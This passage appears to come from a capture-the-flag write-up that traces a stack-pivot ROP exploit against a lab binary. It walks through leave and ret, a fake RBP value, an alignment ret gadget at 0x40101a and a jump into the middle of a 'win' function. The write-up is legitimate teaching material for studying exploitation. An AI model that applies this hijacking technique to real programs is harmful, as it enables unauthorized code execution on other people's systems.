What `leave` does:
```asm
mov rsp, rbp       ; RSP = RBP
pop rbp            ; RBP = [RSP], RSP += 8
```

**After leave:**
```
RBP = buf_addr + 0x70  ⭐ (our fake value!)
RSP = new_buf + 0x48   (pointing to return address)
```

### Step 4: First ret Executes

```asm
4012bc:	ret
```

What `ret` does:
```asm
pop rip            ; RIP = [RSP], RSP += 8
jmp rip            ; Jump to RIP
```

**Execution:**
```
Value at [new_buf+0x48] = 0x40101a (ret gadget)
RIP = 0x40101a
RSP = new_buf + 0x50
Jump to 0x40101a
```

### Step 5: Ret Gadget Executes

```asm
40101a:	ret
```

**Execution:**
```
Value at [new_buf+0x50] = 0x401218 (system_mid)
RIP = 0x401218
RSP = new_buf + 0x58  ⭐ (Now 16-byte aligned!)
Jump to 0x401218
```

**Current state:**
- RIP = 0x401218 (middle of win)
- RBP = buf_addr + 0x70 (our fake value)
- RSP = new_buf + 0x58

### Step 6: The Exploit Completes

```asm
401218:	mov    rax,QWORD PTR [rbp-0x10]
```

**What this reads:**
```
RBP = buf_addr + 0x70
[rbp-0x10] = [buf_addr + 0x60]

Through our careful calculation, this points to where we placed 0x402008!
RAX = 0x402008  ⭐
```
